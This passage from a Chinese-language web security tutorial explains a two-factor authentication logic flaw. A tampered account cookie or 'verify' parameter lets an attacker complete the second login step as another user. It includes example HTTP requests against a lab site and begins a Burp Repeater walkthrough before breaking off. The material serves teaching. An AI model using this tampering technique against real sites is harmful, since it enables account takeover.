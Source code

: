 ### 逻辑缺陷

在一些情况下我们可能会遇到在用户完成初始登录步骤后，网站无法充分验证同一用户是否正在完成第二步，例如：用户在第一步中使用其正常凭据登录

```plain
POST /login-steps/first HTTP/1.1
Host: vulnerable-website.com
...
username=carlos&password=qwerty
```

在进入登录过程的第二步之前他们将被分配一个与其帐户相关的cookie

```plain
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```

提交验证码时请求使用此cookie来确定用户试图访问的帐户

```plain
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

在这种情况下攻击者可以使用自己的凭据登录，但在提交验证码时会将帐户cookie的值更改为任意用户名，如果攻击者能够强行使用验证码，这将是极其危险的，因为这将允许他们完全基于用户名登录任意用户的帐户，他们甚至不需要知道用户的密码

```plain
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

下面我们通过一个示例进行演示说明：  
首先登录自己的账户熟悉2FA的验证过程，可以看到"POST /login2"请求中的verify参数用于确定正在访问哪个用户的帐户  
[![](assets/1705979483-c07aa4315495ce0992384464881a308b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121192801-22e9d674-b850-1.png)  
随后我们将上述请求发送到repeat模块并将verify参数更改为carlos后发送请求，发现可以为Carlos生成临时2FA代码  